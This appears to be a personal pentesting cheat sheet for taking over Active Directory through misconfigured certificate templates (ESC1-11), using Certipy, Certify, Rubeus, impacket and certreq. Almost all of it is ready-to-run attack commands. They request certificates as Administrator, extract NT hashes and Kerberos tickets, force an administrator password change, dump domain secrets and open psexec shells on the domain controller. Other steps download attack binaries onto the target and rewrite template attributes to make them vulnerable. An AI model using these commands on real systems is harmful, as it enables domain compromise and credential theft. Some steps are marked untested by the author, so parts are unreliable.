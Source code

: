 Using Certipy
---
#certipy #Certificate-Abuse

First sync time to DC:
```shell
sudo rdate -n $DCNAME
```
OR
```shell
sudo ntpdate $DCNAME
```
and then restore
```shell
sudo ntpdate pool.ntp.org
```

SCAN AND EXPLOIT ESC 1 - 11 vulnerable certificate templates with certipy
---
#certipy #vulnerable-template #ad #active-directory #ad-template 

find vulnerable cert templates:
```shell
certipy find -u $USER -p $PASS -dc-ip $TARGET_IP -vulnerable -stdout -text
```
request enrollment of user in template:
```shell
certipy req -u $USER -p $PASS -ca $AD_CA_NAME -target $AD_DNS_NAME -template $TEMPLATE_FOUND_NAME -upn Administrator@$DOMAIN -debug
```
exploit to get admin hash:
```shell
certipy auth -pfx administrator.pfx -dc-ip $TARGET_IP
```

Exploiting misconfigured Certificate template with Rubeus and Certify:
---
#ad #ad-template #misconfiguration #rubeus #certify 

Download certify.exe and Rubeus:

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Certify.exe -O Certify.exe
```

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe -O Rubeus.exe
```

Download on target:

```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
and run the search
```powershell
./certify.exe find /vulnerable
./certify.exe request /ca:dc.$DOMAIN\$DOMAIN-DC-CA /template:UserAuthentication /altname:Administrator
```

After that download the cert using evil-winrm:

```powershell
download cert.pem
```

```shell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Upload cert.pfx back to target and perform TGT request:

```powershell
upload cert.pfx
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
```

or  get hash for evil-winrm etc.:

```powershell
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

```sh
psexec.py -hashes $HASH:$HASH $USER@$TARGET_IIP
```

then

```powershell
./Rubeus.exe changepw /ticket:doIG2DCCBtSg…<snip>…== /new:Password123!! /targetuser:$DOMAIN\Administrator
```

OR use:

```link
https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
```
instead of rubeus.exe for asktgt function

OR get hash with

```
getnthash.py (untested)
```

then copy ticket.kirbi to LOCAL machine and :

```shell
base64 -di ticket.kirbi >> ticket.bin
impacket-ticketConverter ticket.bin ticket.ccache
export KRB5CCNAME=/home/kali/$TARGET_NAME-box/files/ticket.ccache
```

```sh
pip install minikerberos --user
minikerberos-kirbi2ccache ticket.kirbi ticket.ccache
```

```
impacket-secretsdump -k -no-pass g0.$DOMAIN
```

Check with:

```shell
echo $KRB5CCNAME
klist -f
sudo nano /etc/krb5.conf
```

```config
$DOMAIN = {
  kdc = dc.$DOMAIN
  admin_server = dc.$DOMAIN
}
```

then sync time with DC domain controller server

```shell
sudo ntpdate $DOMAIN_CONTROLLER
```

Finally login to server using kerberos auth:

```shell
impacket-psexec $TARGET_DOMAIN/Administrator@$DOMAIN_CONTROLLER -target-ip $TARGET_IP -dc-ip $TARGET_IP -no-pass -k
```

Powershell cmds:
---
untested, should be ok substitute for ADCSTemplate module:
```powershell
$Properties = @{}
$Properties.Add('mspki-certificate-name-flag',1)
$Properties.Add('pkiextendedkeyusage',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('msPKI-Certificate-Application-Policy',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('flags',0)
$Properties.Add('mspki-enrollment-flag',0)
$Properties.Add('mspki-private-key-flag',256) # 0x100
$Properties.'mspki-private-key-flag' += 16 # 0x10
$Properties.Add('pkidefaultkeyspec',1)
$Properties.Add('pKIDefaultCSPs','1,Microsoft RSA SChannel Cryptographic Provider')
Import-Module ActiveDirectory
Set-AdObject "CN=TemplateName,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local" -Replace $Properties
```
Create a com object and set the subject alternative name
```powershell
$SAN = New-Object -ComObject X509Enrollment.CX509ExtensionAlternativeNames
$IANs = New-Object -ComObject X509Enrollment.CAlternativeNames
$IAN = New-Object -ComObject X509Enrollment.CAlternativeName
$IAN.InitializeFromString(0xB,"Administrator@$AD_DOMAIN") # UPN to use
$IANs.Add($IAN)
$SAN.InitializeEncode($IANs)
```
Create a request object to request the certificate based on a template
```powershell
$Request = New-Object -ComObject X509Enrollment.CX509Enrollment
$Request.InitializeFromTemplateName(0x1,"TemplateName") # Template to use
$Request.Request.X509Extensions.Add($SAN)
$Request.CertificateFriendlyName = "TemplateName" # Template to use
```
Enroll the certificate:
```powershell
$Request.Enroll()
```

Using CertReq(untested):
---
request.inf

```inf
[NewRequest]
Subject = "CN=ComputerName,CN=Computers,DC=domain,DC=local"
Exportable = TRUE
KeyLength = 2048
KeySpec = 1
KeyUsage = 0x60
MachineKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
[RequestAttributes]
CertificateTemplate=Web
SAN="upn=Administrator@$ADDOMAIN"
[Extensions]
2.5.29.17 = "{text}"
_continue_ = "upn=Administrator@$ADDOMAIN"
[EnhancedKeyUsageExtension]
OID = 1.3.6.1.4.1.311.20.2.2
OID = 1.3.6.1.5.5.7.3.2
```

then

```powershell
certreq -q -new request.inf request.pem
certreq -q -submit request.pem cert.pem
certreq -q -accept cert.pem
```